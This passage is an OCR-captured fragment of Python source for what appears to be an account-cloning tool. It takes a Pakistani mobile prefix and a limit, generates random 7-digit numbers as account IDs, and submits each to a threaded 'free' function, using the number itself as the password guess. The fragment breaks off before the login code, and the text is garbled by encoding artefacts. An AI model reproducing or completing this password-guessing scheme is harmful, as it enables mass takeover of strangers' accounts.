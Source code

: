  Â Â Â Â print(f"[01]Â {WHITE}STARTÂ RANDOMÂ CLONING") 
 Â Â Â Â print(f"[00]Â {WHITE}EXITÂ PROGRAMÂ ") 
 Â Â Â Â print(f"") 
 Â Â Â Â print(f"\033[1;91m========================================================") 
 Â Â Â Â KashifÂ =Â input("[âˆš]Â CHOOSEÂ :Â ") 
 Â Â Â Â ifÂ KashifÂ inÂ ["1","01"]: 
 Â Â Â Â Â Â Â Â Random() 
 Â Â Â Â elifÂ KashifÂ inÂ ["0","00"]: 
 Â Â Â Â Â Â Â exit() 
 Â Â Â Â else: 
 Â Â Â Â Â Â Â Â print('\033[1;31mINCORECTÂ OPTION!\033[1;31m') 
 Â Â Â Â Â Â Â Â xyz() 
  
 #_____________# 
 Â  
 #_____________________# 
  
 defÂ Random(): 
 Â Â Â Â user=[] 
 Â Â Â Â os.getuid 
 Â Â Â Â os.geteuid 
 Â Â Â Â os.system("clear") 
 Â Â Â Â print(logo) 
 Â Â Â Â print(f"") 
 Â Â Â Â clear() 
 Â Â Â Â print(f"Â Â Â Â Â Â Â Â Â Â \x1b[97m[\033[37;41mÂ Â CÂ OÂ DÂ EÂ Â Â Â MÂ EÂ NÂ UÂ Â Â \033[0;m]") 
 Â Â Â Â print(f"") 
 Â Â Â Â linex() 
 Â Â Â Â print(f"Â Â Â Â Â Â Â Â \x1b[97m[\033[95;42mEXAMPLEÂ :ðŸ‘‡\033[0;m]") 
 Â Â Â Â print(f"") 
 Â Â Â Â print('Â 0306Â ,0300Â ,0315Â ,0333') 
 Â Â Â Â print(f"Â 0341Â ,0342Â ,0345Â ,0349") 
 Â Â Â Â print(f"Â 0321Â ,0316Â ,0308Â ,0309") 
 Â Â Â Â print(f"") 
 Â Â Â Â linex() 
 Â Â Â Â codeÂ =Â input('Â PUTÂ CODEÂ :Â ') 
 Â Â Â Â os.system("clear") 
 Â Â Â Â print(logo) 
 Â Â Â Â print(f"") 
 Â Â Â Â print(f"Â Â Â Â Â Â Â Â Â Â \x1b[97m[\033[37;41mÂ Â LÂ IÂ MÂ IÂ TÂ Â Â MÂ EÂ NÂ UÂ Â Â \033[0;m]") 
 Â Â Â Â print(f"") 
 Â Â Â Â limitÂ =Â int(input('Â EXAMPLE:Â 1000,Â 2000,Â 5000,Â 10000\n\nÂ PUTÂ CLONINGÂ LIMIT:Â ')) 
 Â Â Â Â forÂ nmbrÂ inÂ range(limit): 
 Â Â Â Â Â Â Â Â nmpÂ =Â ''.join(random.choice(string.digits)Â forÂ _Â inÂ range(7)) 
 Â Â Â Â Â Â Â Â user.append(nmp) 
 Â Â Â Â withÂ ThreadPool(max_workers=30)Â asÂ yaari:Â Â Â Â  
 Â Â Â Â Â Â Â Â clear() 
 Â Â Â Â Â Â Â Â tlÂ =Â str(len(user)) 
 Â Â Â Â Â Â Â Â print(f"Â {WHITE}TOTALÂ IDZÂ Â Â Â Â Â Â Â Â Â Â Â Â :Â {RED}"+tl) 
 Â Â Â Â Â Â Â Â print(f"Â {WHITE}COUNTRYÂ YOUÂ CHOOSEÂ Â Â Â :Â PAKISTANÂ ") 
 Â Â Â Â Â Â Â Â print(f"Â {WHITE}NUMBERÂ YOUÂ PUTÂ Â Â Â Â Â Â Â :Â {RED}"+code) 
 Â Â Â Â Â Â Â Â print(f"Â {WHITE}PROCESSÂ HASÂ BEENÂ STARTED") 
 Â Â Â Â Â Â Â Â print(f"Â {WHITE}BEÂ PATIENT.......") 
 Â Â Â Â Â Â Â Â print(f"Â {WHITE}TOÂ STOPÂ PROCESSÂ CtrlÂ +Â ZÂ ") 
 Â Â Â Â Â Â Â Â print(f'===========================================================') 
 Â Â Â Â Â Â Â Â forÂ loveÂ inÂ user: 
 Â Â Â Â Â Â Â Â Â Â Â Â uidÂ =Â code+love 
 Â Â Â Â Â Â Â Â Â Â Â Â pwxÂ =Â [love] 
 Â Â Â Â Â Â Â Â Â Â Â Â yaari.submit(free,uid,pwx,tl) 
 defÂ free(uid,pwx,tl): 
 Â Â Â Â globalÂ loop 
 Â Â Â Â globalÂ oks 